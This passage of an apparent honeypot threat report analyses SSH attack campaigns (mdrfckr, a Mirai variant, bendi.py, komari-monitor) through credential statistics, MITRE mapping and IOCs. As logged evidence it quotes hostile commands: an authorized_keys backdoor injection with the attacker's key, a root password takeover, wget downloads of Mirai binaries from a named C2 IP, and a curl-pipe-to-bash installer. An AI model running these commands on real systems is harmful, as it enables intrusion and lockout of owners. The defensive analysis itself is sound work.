| 8 | AS8075 | Microsoft Azure | 35 | Cloud infrastructure |
| 9 | AS16509 | Amazon AWS | 29 | Cloud infrastructure |
| 10 | AS44486 | SYNLINQ | 12 | Hosts high-confidence malicious infrastructure (15/91 VirusTotal detections at time of analysis) Mirai C2 server `45.81.234.64` at mc-host24.de |

> **Note:** SYNLINQ (AS44486) is highlighted despite lower IP count due to its role hosting the confirmed Mirai C2 server at 45.81.234.64.

**Key finding:** The presence of major cloud providers (DigitalOcean, OVHcloud, Hetzner, Google Cloud, Azure, AWS) in the top attacking ASNs confirms that attackers are operating from rented cloud infrastructure rather than solely from compromised end-user devices. Blocking entire cloud provider IP ranges is not practical — targeted IP-level blocking based on observed attack behavior is the correct defensive posture.

**Note:** ASN data was derived from ipinfo.io geolocation data. Exact ASN attribution accuracy is approximately 95% at the IP-to-ASN mapping level.

### 4.5 Cross-Campaign Infrastructure Analysis

To determine whether the observed attack campaigns share infrastructure or operators, all source IP addresses were cross-referenced across campaign clusters.

| Comparison | Result |
|---|---|
| mdrfckr IPs also running Mirai commands | **0 of 1,342** |
| Mirai source IPs also running mdrfckr commands | **0 of 1** |
| May 25 spike IPs in mdrfckr campaign | **0 of 2** |
| May 25 spike IPs in Mirai campaign | **0 of 2** |

**Finding: Zero infrastructure overlap confirmed between mdrfckr, Mirai, and May 25 spike IP clusters. bendi.py and komari-monitor could not be tested for overlap due to absence of unique IP-level signatures for those campaigns.**

This result has significant analytical implications:

1. **mdrfckr and Mirai are genuinely independent operations** — not a single operator running multiple tools. The 1,342 mdrfckr nodes and the single Mirai deployment node (`176.65.139.213`) share no infrastructure whatsoever.

2. **The May 25 spike was an independent operation** — neither `102.113.245.130` nor `202.29.70.1` participated in the mdrfckr or Mirai campaigns at any point during the collection period. The carpet-bombing on May 25 was conducted by actors entirely separate from the named campaigns.

3. **The Mirai campaign operated from a single source IP** — all 10 download attempts originated from `176.65.139.213` in a 30-second window. This is consistent with a single automated deployment task rather than a distributed botnet operation.

4. **Six distinct attack clusters** — this honeypot was targeted by at least six distinct, independently operated attack clusters running concurrently: mdrfckr (1,342 nodes), Mirai variant (1 node), bendi.py (290 sessions), komari-monitor (290 sessions), generic credential-stuffing bots (libssh, 24,807 attempts), and the May 25 carpet-bombing (2 IPs). Infrastructure-overlap testing was possible only for the three clusters with unique IP-level signatures (see finding above).

This level of concurrent, non-overlapping attack activity against a single public IP address reflects the current state of the internet threat landscape: multiple independent threat actors continuously scanning and exploiting the same targets simultaneously.

---

## 5. Credential Analysis

### 5.1 Summary Statistics

| Metric | Value | Notes |
|---|---|---|
| Total login attempts | 93,976 | Per `credential_analysis.py`; differs by 11 from the §3.3 event-type sum (69,604 success + 24,383 failed = 93,987) due to different counting methodology between the credential parser and the event-type extractor |
| Unique usernames attempted | 2,125 | Broad targeting across default and service accounts |
| Unique passwords attempted | 28,529 | High diversity indicates automated wordlist rotation |
| RockYou wordlist match rate | 78.9% | Unique passwords found in RockYou breach corpus |
| Attempts using breach-list passwords | 67% | Majority of attack volume driven by known leaked credentials |
| Notable botnet credential | `345gs5662d34` | 6,146 attempts; hardcoded Mirai credential; not in RockYou |
| Campaign-specific username | `mdrfckr` | Exclusive to mdrfckr botnet; paired with varied passwords |

### 5.2 Top 15 Usernames Attempted

| Rank | Username | Attempts | Notes |
|---|---|---|---|
| 1 | root | 69,833 | Universal Linux superuser — highest-frequency target by a wide margin |
| 2 | 345gs5662d34 | 6,146 | **Botnet-Specific** — hardcoded Mirai credential used as both username and password |
| 3 | admin | 1,532 | Default administrative account |
| 4 | user | 1,211 | Generic default account |
| 5 | ubuntu | 864 | Cloud image default user |
| 6 | test | 278 | Development and staging system target |
| 7 | cloud | 252 | Cloud infrastructure default account |
| 8 | curl | 229 | Unusual — likely automated tool artifact or misconfigured bot |
| 9 | user1 | 206 | Generic numbered user account |
| 10 | deploy | 206 | CI/CD and deployment automation account |
| 11 | oracle | 184 | Database server default account |
| 12 | ftpuser | 155 | FTP service default account |
| 13 | sol | 153 | Solana validator node — targeted crypto infrastructure account |
| 14 | postgres | 152 | PostgreSQL service account |
| 15 | steam | 138 | Game server hosting account |

> **Note on `curl` as username (rank 8):** The presence of `curl` as a login username with 229 attempts is an artifact of automated attack tooling — bots that send malformed SSH handshakes with tool names embedded. It is not a real account target.

### 5.3 Top 15 Passwords Attempted

| Rank | Password | Attempts | Classification |
|---|---|---|---|
| 1 | 345gs5662d34 | 6,146 | Botnet-Specific (Mirai hardcoded) |
| 2 | 3245gs5662d34 | 6,122 | Botnet-Specific (Mirai variant) |
| 3 | 123456 | 1,794 | Breach List |
| 4 | LeitboGi0ro | 1,037 | Botnet-Specific (mdrfckr campaign) |
| 5 | 123@@@ | 737 | Custom/Targeted |
| 6 | smo@@kkklss | 534 | Custom/Targeted |
| 7 | 123 | 503 | Dictionary Word |
| 8 | 1234 | 410 | Dictionary Word |
| 9 | fjbdfdjkdsfs541544AA@@ | 407 | Botnet-Specific |
| 10 | admin | 338 | Default Credential |
| 11 | password | 331 | Breach List |
| 12 | fjbdfdjkdsfs541544@@ | 260 | Botnet-Specific |
| 13 | 12345678 | 248 | Breach List |
| 14 | Wangsu@2017 | 231 | Custom/Targeted (Wangsu CDN default) |
| 15 | welltech12 | 230 | Custom/Targeted |

> **Key finding:** Unlike typical SSH attack datasets where generic passwords (`123456`, `password`) dominate, **this dataset is led by botnet-specific hardcoded credentials**. The top two passwords (`345gs5662d34` and `3245gs5662d34`) account for **12,268 attempts combined** and are embedded directly in Mirai malware — they are never guessed, always scripted. `LeitboGi0ro` at rank 4 is a mdrfckr campaign credential. The presence of `Wangsu@2017` is consistent with Wangsu CDN default credential patterns reported in public threat intelligence — may indicate targeting of CDN infrastructure or simply inclusion in specialized wordlists. This distribution confirms multiple distinct automated campaigns operating simultaneously, each with their own hardcoded credential sets.

### 5.4 Credential Intelligence Analysis

The **78.9% RockYou match rate** across unique passwords is one of the clearest signals in this dataset. These are not targeted, operator-driven intrusion attempts — they are fully automated tools iterating through known breach corpora at scale. The attacker infrastructure does not need to know anything about the target environment; it only needs port 22 open and a password authentication path. The **67% of all attempts** drawn from breach-list passwords confirms that volume, not sophistication, drives compromise probability on internet-exposed SSH.

The credential `345gs5662d34` carries disproportionate intelligence value. Used as both username and password across **6,146 attempts**, and absent from RockYou, it is a **hardcoded Mirai botnet credential** embedded directly in malware — not guessed, not sprayed, not derived from a leak. Its presence in authentication logs is a binary indicator: Mirai or a derivative is actively targeting the host. This is the difference between generic brute force noise and campaign-attributable malicious activity.

Defenders should treat these findings as conclusive: **password-only SSH authentication on internet-exposed systems without compensating controls presents an unacceptable risk posture**. With **93,976 credential attempts** in 21 days and nearly four in five unique passwords traceable to RockYou, the question is not whether a weak credential will be tried — it is how quickly a match will occur. Eliminating password-based SSH, enforcing key-only authentication, and alerting on campaign-specific indicators (`mdrfckr`, `345gs5662d34`) are baseline requirements, not optional hardening.

---

## 6. Command Analysis

Post-login command activity provides the strongest evidence of attacker intent after initial access. Across the collection period, **70,697 commands** were logged across **176 unique command strings**, observed in **60,826 sessions** that progressed beyond authentication.

### 6.1 Post-Login Command Frequency

| Rank | Command | Frequency | Purpose |
|---|---|---|---|
| 1 | `echo -e "\x6f\x6b"` | 51,938 | Keepalive/probe — hex-encoded "ok" used by mdrfckr botnet to test shell responsiveness |
| 2 | `cd ~; chattr -ia .ssh; lockr -ia .ssh` | 6,321 | Remove immutable flags on .ssh directory before key injection |
| 3 | `cd ~ && rm -rf .ssh && mkdir .ssh && echo "[SSH_KEY]" >> .ssh/authorized_keys && chmod -R go= ~/.ssh` | 6,273 | Full mdrfckr backdoor installation — wipes existing keys, injects campaign key, locks permissions |
| 4 | `uname -s -v -n -r -m` | 2,012 | System architecture and kernel fingerprinting |
| 5 | `command -v python3 >/dev/null 2>&1 \|\| (apt-get install...)` | 290 | bendi.py — check Python3 availability before deployment |
| 6 | `apt-get update -y` | 290 | bendi.py — update package lists before dependency install |
| 7 | `apt-get install -y python3` | 290 | bendi.py — install Python3 runtime |
| 8 | `python3 /tmp/bendi.py` | 290 | bendi.py — execute cryptominer |
| 9 | `rm /tmp/bendi.py` | 290 | bendi.py — delete dropper after execution |
| 10 | `bash <(curl -sl https://raw.githubusercontent.com/komari-monitor/...)` | 290 | komari-monitor — one-line installer piped directly to bash |

> **Key finding:** The dominant command by far is `echo -e "\x6f\x6b"` with **51,938 occurrences** — a hex-encoded keepalive probe (`\x6f\x6b` = "ok") used by the mdrfckr botnet to confirm shell access before executing its backdoor chain. The bendi.py commands (ranks 5–9) each appear exactly **290 times**, confirming a single automated campaign executing a fixed script. The komari-monitor installer (rank 10) represents a separate campaign targeting server monitoring infrastructure. The 290 bendi.py executions and 290 komari-monitor installations are distinct session sets running different scripts — not the same 290 sessions.

### 6.2 Attacker Behavior Summary

Four distinct post-login attack chains were observed repeatedly across the dataset (mdrfckr, Mirai, bendi.py, and komari-monitor). The May 25 carpet-bombing and generic credential stuffing clusters did not produce post-login sessions in sufficient volume for chain analysis. Each chain is fully automated, executes in sequence within seconds of a successful login, and maps to a specific attack cluster identified elsewhere in this report.

#### Chain 1 — mdrfckr Persistent Access Campaign

| Step | Action | Analyst Note |
|---|---|---|
| 1 | Authenticate with campaign credential | mdrfckr botnet node initiates connection |
| 2 | `echo -e "\x6f\x6b"` | Hex-encoded "ok" probe — confirms interactive shell is available before executing payload |
| 3 | `cd ~; chattr -ia .ssh; lockr -ia .ssh` | Remove immutable file attributes from .ssh directory — clears any protection flags set by defenders or competing attackers |
| 4 | `cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJ...KPRK+oRw== mdrfckr" >> .ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~` | Complete backdoor installation in a single chained command — destroys existing .ssh directory, recreates it, injects campaign RSA key, restricts permissions |
| 5 | `cat /proc/cpuinfo \| grep name \| wc -l` | CPU core count detection — profiles server resources |
| 6 | `echo "root:[RANDOM_PASSWORD]"\|chpasswd\|bash` | Rotates root password to lock out legitimate owner and competing attackers |
| 7 | `rm -rf /tmp/secure.sh; rm -rf /tmp/auth.sh; pkill -9 secure.sh; pkill -9 auth.sh; echo > /etc/hosts.deny; pkill -9 sleep` | Kill competing processes and clear access restrictions — eliminates rival malware |
| 8 | `free -m`, `uname -m`, `uname -a`, `whoami`, `lscpu`, `df -h`, `top`, `w` | Full system profiling — CPU, RAM, disk, users, uptime |

**Objective:** Establish sole persistent control of compromised host. The random password rotation in Step 6 — confirmed across multiple sessions where each session uses a different generated password — proves automated credential management by a centralized C2 operator.

#### Chain 2 — Mirai Variant IoT Recruitment

| Step | Action | Analyst Note |
|---|---|---|
| 1 | Authenticate with hardcoded credential `345gs5662d34:345gs5662d34` | Mirai family fingerprint — not a guessed credential |
| 2 | `cat /proc/cpuinfo` | Detect CPU architecture |
| 3 | `wget http://45.81.234.64/[arch_binary]` | Download architecture-matched Mirai binary (armv6l, mips, mipsel, sh4, or x86) |
| 4 | `chmod +x [binary]` | Make binary executable |
| 5 | `./[binary]` | Execute Mirai agent, enrolling server into DDoS botnet |

**Objective:** Recruit servers into a Mirai-based DDoS botnet. Architecture detection in Step 2 confirms the malware is designed for IoT devices (ARM, MIPS) as well as standard Linux servers.

#### Chain 3 — bendi.py Cryptomining Deployment

| Step | Action | Analyst Note |
|---|---|---|
| 1 | Authenticate with common credential | Entry via breach-list or default password |
| 2 | `apt-get install -y python3` | Install Python3 runtime dependency |
| 3 | `wget http://[C2 REDACTED]/bendi.py` | Download Python cryptominer dropper |
| 4 | `python3 /tmp/bendi.py` | Execute cryptominer |
| 5 | `rm -f /tmp/bendi.py` | Delete dropper script to hinder forensic analysis |

**Objective:** Deploy cryptocurrency mining software to monetize compromised server CPU cycles. The self-deletion in Step 5 indicates operational security awareness from this campaign operator.

> **Note on redacted C2:** See the IOC disclosure policy at the start of §8. The bendi.py C2 server IP is withheld from this public document; the full URL is in `docs/ioc-urls.csv` at github.com/seif999999/honeypot-soc-lab.

Specific resources available in the repository:
- Analysis scripts: `/analysis/`
- Custom Wazuh detection rules: `/siem/rules/`
- Sample attack logs: `/honeypot/sample-logs/`
- IOC export: `/docs/ioc-ips.csv` and `/docs/ioc-urls.csv`
- Architecture diagram: `/docs/architecture.md`
- Full threat report: `/docs/threat-report.pdf`

#### Chain 4 — komari-monitor Agent Installation

| Step | Action | Analyst Note |
|---|---|---|
| 1 | Authenticate with common credential | Entry via breach-list or default password |
| 2 | `bash <(curl -fsSL https://raw.githubusercontent.com/komari-monitor/komari-agent/main/install.sh)` | One-line installer — downloads and executes the komari-monitor agent installation script directly from GitHub, piped to bash without saving to disk first. This pattern bypasses file-based detection. |
| 3 | Agent installs and phones home | komari-monitor establishes persistent connection to operator-controlled infrastructure |

**Objective:** Deploy a server monitoring agent (komari-monitor) on compromised hosts — likely repurposed for unauthorized infrastructure monitoring, resource tracking across a botnet fleet, or as a persistent access mechanism. This campaign was observed **290 times** across the collection period with identical one-line installer syntax, confirming automated deployment.

komari-monitor is a legitimate open-source server monitoring and management tool available on GitHub. In normal use it provides resource monitoring and remote management for server operators. Its deployment here via a curl-pipe-to-bash installer on a freshly compromised host — without any prior installation of the tool — constitutes definitive unauthorized use. The piped installer pattern specifically bypasses file-based detection controls that would otherwise flag a downloaded binary.

**Note:** Full post-installation behavior of komari-monitor was not observable within the Cowrie honeypot environment due to emulation limitations. The installer URL and execution pattern constitute the primary IOCs for this campaign. Further investigation of the komari-monitor project and its C2 infrastructure is recommended.

### 6.3 Notable Session Replay — mdrfckr Botnet

**Representative Session — 2026-05-26 — Source IP: 150.139.194.15 — Campaign: mdrfckr**
*This session is presented as representative of the mdrfckr campaign pattern. The identical **19-command sequence** was observed across **6,273 confirmed sessions** from 1,342 unique source IPs throughout the 21-day collection period. The only variation between sessions was the randomly-generated password used in the chpasswd command (Step 6 of the §6.2 chain).*

*Note on command count: The 8-step attack chain in §6.2 describes the logical phases of the attack. The actual session contains 19 individual commands because several steps execute multiple sub-commands in sequence — for example, Step 4 in §6.2 is a single chained bash command containing 5 operations (cd, rm, mkdir, echo, chmod). The session replay table below shows all 19 individual commands as logged by Cowrie.*

*Note on the keepalive probe: this session log begins at the `chattr -ia .ssh` command; the `echo -e "\x6f\x6b"` keepalive probe (§6.1, rank 1) does not appear, indicating Cowrie logging for this session began mid-chain or the probe was issued on a prior connection. The probe's far higher overall frequency (51,938) versus the key-injection count (6,273) reflects that many probed sessions did not proceed to full backdoor installation.*

**1. `2026-05-26T00:24:20Z`**
`cd ~; chattr -ia .ssh; lockr -ia .ssh`
*First action after login — removes immutable attributes from the .ssh directory. `chattr -ia` clears append-only and immutable flags; `lockr -ia` is a mdrfckr-specific tool performing equivalent operations. Ensures the backdoor injection cannot be blocked by filesystem protections.*

---

**2. `2026-05-26T00:24:21Z`**
`cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~`
*Core backdoor installation as a single chained command executed in under 1 second. Wipes the existing .ssh directory, recreates it fresh, writes the mdrfckr campaign RSA public key to authorized_keys, then locks directory permissions so only root can read or modify it. After this command the C2 operator has permanent passwordless SSH access regardless of any subsequent password changes.*

---

**3. `2026-05-26T00:24:38Z`**
`cat /proc/cpuinfo | grep name | wc -l`
*CPU core count — determines the server's processing capacity. Used to assess suitability for cryptomining or DDoS participation.*

---

**4. `2026-05-26T00:24:40Z`**
`echo "root:bXyDHtBxO88X"|chpasswd|bash`
*Rotates root password to randomly-generated string `bXyDHtBxO88X`. Each mdrfckr session uses a different generated password — automated credential management from a centralized C2, not a human operator. Locks out the legitimate server owner.*

---

**5. `2026-05-26T00:24:42Z`**
`rm -rf /tmp/secure.sh; rm -rf /tmp/auth.sh; pkill -9 secure.sh; pkill -9 auth.sh; echo > /etc/hosts.deny; pkill -9 sleep`
*Anti-competition cleanup — kills rival malware processes and clears /etc/hosts.deny to ensure the operator's own future connections are not blocked. Eliminates competing actors from the same compromised host.*

---

**6. `2026-05-26T00:24:44Z`**
`cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9;}'`
*CPU model name extraction — more detailed processor identification for asset inventory.*

---

**7. `2026-05-26T00:24:47Z`**
`free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}'`
*RAM usage report — total, used, free, shared, cache, available memory.*

---

**8. `2026-05-26T00:24:48Z`**
`ls -lh $(which ls)`
*Checks ls binary properties — used to fingerprint the OS distribution and binary version.*

---

**9. `2026-05-26T00:24:48Z`**
`which ls`
*Confirms binary location — establishes baseline system path configuration.*

---

**10. `2026-05-26T00:24:49Z`**
`crontab -l`
*Lists existing cron jobs — checks for competing persistence mechanisms or scheduled tasks.*

---

**11. `2026-05-26T00:24:50Z`**
`w`
*Lists logged-in users and system uptime — detects if a legitimate administrator is currently active.*

---

**12. `2026-05-26T00:24:52Z`**
`uname -m`
*CPU architecture string — confirms 32 vs 64-bit for payload compatibility.*

---

**13. `2026-05-26T00:24:54Z`**
`cat /proc/cpuinfo | grep model | grep name | wc -l`
*Physical CPU count — distinguishes virtual machines from bare metal servers.*

---

**14. `2026-05-26T00:24:57Z`**
`top`
*Real-time process list — identifies other running processes and CPU utilization.*

---

**15. `2026-05-26T00:24:59Z`**
`uname`
*Basic kernel name — OS type confirmation.*

---

**16. `2026-05-26T00:25:00Z`**
`uname -a`
*Full kernel information — version, build date, architecture in one command.*

---

**17. `2026-05-26T00:25:01Z`**
`whoami`
*Confirms current user context — verifies root-level access was successfully obtained.*

---

**18. `2026-05-26T00:25:02Z`**
`lscpu | grep Model`
*Detailed CPU model from lscpu — corroborates /proc/cpuinfo data.*

---

**19. `2026-05-26T00:25:03Z`**
`df -h | head -n 2 | awk 'FNR == 2 {print $2;}'`
*Root filesystem disk size — assesses available storage for payload hosting or data exfiltration.*

**Analysis:** This session completed in **43 seconds** from first command to last. All 19 commands are shown above exactly as logged by Cowrie from the real session `ff869ebc92f0`. The command timing, sequence consistency across thousands of independent sessions, and sub-second execution intervals are strongly indicative of automated scripted execution rather than manual operator activity. This behavioral pattern is consistent with a scripted post-exploitation framework executing a fixed playbook — authenticate, secure access, eliminate competition, profile the asset, report back. The identical command sequence, identical RSA key, and randomized-but-patterned passwords across **1,342 confirmed source IPs** confirm centralized C2 coordination of a large-scale botnet operation.

---

## 7. MITRE ATT&CK Mapping

| Technique ID | Technique Name | Tactic | Observed Behavior | Minimum Observed Count | Associated Campaign |
|---|---|---|---|---|---|
| T1595.001 | Scanning IP Blocks | Reconnaissance | Automated inbound SSH connection attempts | 95,579 | All campaigns |
| T1592 | Gather Victim Host Information | Reconnaissance | SSH client version strings and key exchange (KEX) parameters captured across all inbound connections — primary source of attacker tooling fingerprints | 94,132 | All campaigns |
| T1133 | External Remote Services | Initial Access | Internet-exposed SSH service accessed via valid credentials | 95,578 sessions | All campaigns |
| T1110.001 | Brute Force: Password Guessing | Credential Access | Automated credential stuffing — 93,976 attempts across 28,529 unique passwords; 24,383 failed authentication events | 24,383 | All campaigns |
| T1110 | Brute Force | Credential Access | Total brute force credential attempts across all sessions | 93,976 | All campaigns |
| T1078 | Valid Accounts | Initial Access / Persistence | Successful logins via compromised or default credentials | 69,604 | All campaigns |
| T1059 | Command and Scripting Interpreter | Execution | Direct shell commands post-authentication | 77,900 | All campaigns |
| T1082 | System Information Discovery | Discovery | Post-login system profiling: uname, whoami, id, cat /proc/cpuinfo, free -m, lscpu, df -h | At minimum 18,432 instances | mdrfckr, Mirai |
| T1098 | Account Manipulation | Persistence | SSH public key injected into authorized_keys granting permanent passwordless access | 6,273 injections | mdrfckr botnet |
| T1496 | Resource Hijacking | Impact | bendi.py cryptominer deployed to abuse server CPU cycles for cryptocurrency mining | 290 deployments | bendi.py campaign |
| T1071 | Application Layer Protocol | Command and Control | SSH protocol used as primary C2 channel | 93,309 | mdrfckr, Mirai |
| T1105 | Ingress Tool Transfer | Command and Control | wget/curl download of Mirai binaries and bendi.py | 7,027 | Mirai, bendi.py |
| T1498 | Network Denial of Service | Impact | Inferred from Mirai binary purpose (DDoS botnet recruitment) — not directly observed; honeypot did not capture outbound attack traffic | Not observed (inferred) | Mirai variant |

> **Dataset note:** Event counts in this table reflect the 698,309-event dataset processed by the automated MITRE mapping script (`mitre_mapping.py`). The full indexed dataset contains 939,329 events. All counts should be treated as **minimum observed frequencies** — actual totals across the full dataset are proportionally higher. Where specific counts are cited in the narrative below (e.g., "at minimum 6,273 SSH key injections", "at minimum 290 cryptominer deployments"), these figures represent confirmed lower bounds derived from the partial dataset. **T1498** is included as an inferred technique based on confirmed Mirai malware delivery and known Mirai family behavior; no DDoS execution was observed within the Cowrie emulation environment. The techniques themselves and their associated campaigns are confirmed across both datasets. The T1059 count (77,900) reflects both successful `cowrie.command.input` events (70,697) and `cowrie.command.failed` events (7,203) logged by Cowrie. T1082 count (at minimum 18,432) derived from sessions containing post-login system profiling commands (uname, whoami, cat /proc/cpuinfo, free -m, lscpu, df -h) as counted by command_tracker.py. T1071 count (93,309) corresponds to cowrie.client.kex events — SSH protocol key exchange events logged per inbound connection.

The observed techniques form a coherent, end-to-end kill chain rather than isolated events. Reconnaissance begins with **T1595.001** scanning and **T1592** host information gathering, progressing to **T1133** external remote services access over the internet-exposed SSH service. Credential access follows via **T1110.001** (24,383 failed password-guessing events) and **T1110** brute force at scale (93,976 total credential attempts), with **T1078** valid account use once authentication succeeds (69,604 successful logins). Post-authentication activity immediately triggers **T1059** shell execution and **T1082** system information discovery to profile the target environment. Campaign-specific objectives diverge from this point: the mdrfckr botnet pursues **T1098** persistence via SSH key injection (**at minimum 6,273** observed instances); the Mirai variant executes **T1105** ingress tool transfer to stage architecture-specific binaries, with **T1498** (Network Denial of Service) inferred as the intended post-recruitment impact based on Mirai family behavior; the bendi.py campaign chains **T1105** with **T1496** resource hijacking (**at minimum 290** deployments). Throughout all campaigns, **T1071** SSH serves as both the initial attack vector and the persistent command channel. Protocol-level monitoring and honeypot-derived intelligence are critical for early detection before impact-stage techniques execute.

---

## 8. Indicators of Compromise

> **IOC disclosure policy:** Attacker-controlled infrastructure (confirmed-malicious C2 IPs, malware hosting URLs) is published in full in this report. The **bendi.py C2 server IP is redacted** because it is single-host, attacker-operated infrastructure that may still be active at time of publication; the complete URL is available in `docs/ioc-urls.csv` in the project repository. The **komari-monitor GitHub installer URL is not redacted** because it points to a legitimate, publicly hosted open-source repository — not attacker infrastructure. The actionable IOC for that campaign is the unauthorized curl-pipe-to-bash deployment pattern observed in session logs, not the GitHub host itself. Defenders should alert on the installer command pattern rather than block the public GitHub domain.

### 8.1 Network IOCs

| Type | Value | Confidence | Associated Campaign | Last Verified | Notes |
|---|---|---|---|---|---|
| IP | `45.81.234.64` | High | Mirai variant | June 3, 2026 | Confirmed high-confidence C2, ASN44486 SYNLINQ Germany, mc-host24.de hosting, 15/91 VirusTotal detections as of June 6, 2026 |
| IP | `102.113.245.130` | High | May 25 spike | June 3, 2026 | Nigerian ASN, responsible for 65.6% of peak hour traffic on May 25 (30,974 of 47,246 events at 12:00 UTC) |
| IP | `202.29.70.1` | High | May 25 spike | June 3, 2026 | Thai ASN, responsible for 29.9% of peak hour traffic on May 25 (14,126 of 47,246 events at 12:00 UTC) |
| IP | `176.65.139.213` | High | Mirai variant | June 3, 2026 | Source of all 10 confirmed malware download sessions on May 24 |
| URL | `http://45.81.234.64/armv6l` | High | Mirai variant | June 3, 2026 | ARM architecture Mirai binary |
| URL | `http://45.81.234.64/mips` | High | Mirai variant | June 3, 2026 | MIPS architecture Mirai binary |
| URL | `http://45.81.234.64/mipsel` | High | Mirai variant | June 3, 2026 | MIPS little-endian Mirai binary |
| URL | `http://45.81.234.64/sh4` | High | Mirai variant | June 3, 2026 | SuperH architecture Mirai binary |
| URL | `http://45.81.234.64/x86` | High | Mirai variant | June 3, 2026 | x86 architecture Mirai binary |
| URL | `http://45.81.234.64/10Gbins.sh` | High | Mirai variant | June 3, 2026 | Shell script — likely a download orchestrator for the architecture-specific Mirai binaries |

> **IOC Validity Note:** Network IOCs should be re-verified before use in production blocking rules. IP addresses may be reassigned and domains may change ownership. All IOCs in this table were verified against AbuseIPDB and VirusTotal as of June 3, 2026.

### 8.2 Credential IOCs

| Type | Value | Confidence | Notes |
|---|---|---|---|
| SSH Public Key | `ssh-rsa AAAAB3NzaC1yc2EAAAABJ...KPRK+oRw== mdrfckr` (full key in §6.3 Session Replay) | High | mdrfckr backdoor key injected at minimum 6,273 times from 1,342 unique IPs — block this key on all SSH servers |
| Credential Pair | `345gs5662d34:345gs5662d34` | High | Hardcoded Mirai credential — presence in auth logs indicates Mirai targeting |
| Username | `mdrfckr` | High | Exclusive mdrfckr botnet indicator — any login attempt with this username should trigger immediate alert |

### 8.3 File IOCs

Cowrie captured **42 complete malware binaries** and 20 incomplete download artifacts (62 total files) in `/home/cowrie/cowrie/var/lib/cowrie/downloads/` during the collection period. Each file's **SHA-256 hash is identical to its filename** in that directory — Cowrie names downloaded artifacts by their hash at time of capture. Analysts should submit these hashes to [VirusTotal](https://www.virustotal.com) for full multi-engine analysis and YARA rule development.

The 10,756 download events reflect repeated attempts to retrieve a small set of files across many sessions. Cowrie deduplicates captured files by SHA-256 hash, resulting in 62 unique artifacts despite the high attempt volume.

The Mirai binaries retrieved from `45.81.234.64` (`armv6l`, `mips`, `mipsel`, `sh4`, `x86`, `10Gbins.sh`) were flagged as high-confidence malicious infrastructure (**15/91 VirusTotal detections at time of analysis**). Hash-level blocking on endpoint and network security controls is recommended for any SHA-256 matching files in the Cowrie downloads directory.

> **Artifact count reconciliation:** §8.3 references 42 complete files with reliable SHA-256 hashes. Appendix B documents all 62 artifacts including 20 incomplete temporary files (`tmp*`) representing interrupted transfers. The "42" and "62" figures refer to different subsets of the same download directory — see Appendix B for the complete breakdown.

### 8.4 C2 Infrastructure Pivot Analysis — 45.81.234.64

Following standard threat intelligence methodology, the confirmed Mirai C2 server at `45.81.234.64` was pivoted on using Shodan, VirusTotal, and AbuseIPDB to build a fuller infrastructure picture. All findings verified June 6, 2026.

#### Shodan Fingerprint

| Attribute | Value |
|---|---|
| IP | 45.81.234.64 |
| Hostnames | `45.81.234.64.mc-host24.de`, `panel.minesucht.eu` |
| Associated Domains | `mc-host24.de`, `minesucht.eu` |
| Country | Germany |
| City | Frankfurt am Main |
| Organization | Sascha Gericke trading as Gericke KG |
| ISP | Oliver Horscht trading as "SYNLINQ" |
| ASN | AS44486 |
| Open Ports | 443 (HTTPS), 9001 |
| Web Server | nginx 1.18.0 (Ubuntu) |
| Shodan Tag | `eol-product` |
| Last Seen by Shodan | May 12, 2026 |

#### Key Infrastructure Findings

**1. Minecraft hosting platform as cover infrastructure**
The hostname `panel.minesucht.eu` identifies this server as part of a Minecraft game server hosting platform. Malicious actors frequently abuse gaming hosting infrastructure — which generates high volumes of legitimate traffic and is rarely subject to aggressive network monitoring — as cover for C2 operations. The domain `minesucht.eu` translates from German as "mine addiction," consistent with legitimate Minecraft hosting branding.

**2. End-of-life product tag**
Shodan has tagged this host as `eol-product`, indicating it is running software past its end-of-life support date. This is consistent with a server that is either abandoned, compromised, or deliberately running unpatched software. Combined with the malicious activity, this suggests the hosting provider may be unaware their infrastructure is being abused, or that the server has been compromised and repurposed.

**3. Port 9001**
Port 9001 is non-standard and not associated with legitimate web hosting. It is commonly used by Tor relay nodes, game server management panels, and malware C2 frameworks. Its presence alongside port 443 on a server tagged with malicious activity warrants further investigation.

**4. Timeline correlation**
Shodan last observed this server on May 12, 2026 — one day before this honeypot went live on May 13. The Mirai download campaign targeting this honeypot began on May 24, 2026. This confirms the server was active and operational throughout the collection period.

**5. AbuseIPDB**
The IP has been reported 11 times with a 9% confidence of abuse score. The low confidence score despite confirmed malicious activity reflects the relatively low report volume — AbuseIPDB scores are crowd-sourced and this server's abuse may not have been widely reported prior to this research.

#### Infrastructure Summary

| Source | Finding | Confidence |
|---|---|---|
| VirusTotal | 15/91 vendors flag as malicious | High |
| Shodan | Hostname `panel.minesucht.eu` — Minecraft hosting cover | High |
| Shodan | `eol-product` tag — running unpatched/EOL software | High |
| Shodan | Port 9001 open — non-standard, associated with C2 frameworks | Medium |
| AbuseIPDB | 11 reports, 9% confidence score | Medium |
| This research | Served Mirai architecture binaries to 1 attacking IP on May 24 | High |

**Analyst assessment:** `45.81.234.64` is high-confidence malicious infrastructure operating within legitimate German game server hosting. The combination of Minecraft hosting cover, EOL software, non-standard ports, and confirmed malware delivery constitutes a classic abuse-of-legitimate-infrastructure pattern. The low AbuseIPDB score suggests this infrastructure has not been widely reported and may still be active. Defenders should block this IP and the associated subnet `45.81.232.0/22` at the network perimeter.

> **Evidence:** Shodan, VirusTotal, and AbuseIPDB screenshots archived in `/docs/` in the project repository. VirusTotal scan date: June 6, 2026.

---

## 9. Recommendations

The following recommendations are derived directly from observed attack patterns in this dataset. Each addresses a specific vulnerability demonstrated by real attacker behavior captured during the collection period.

---

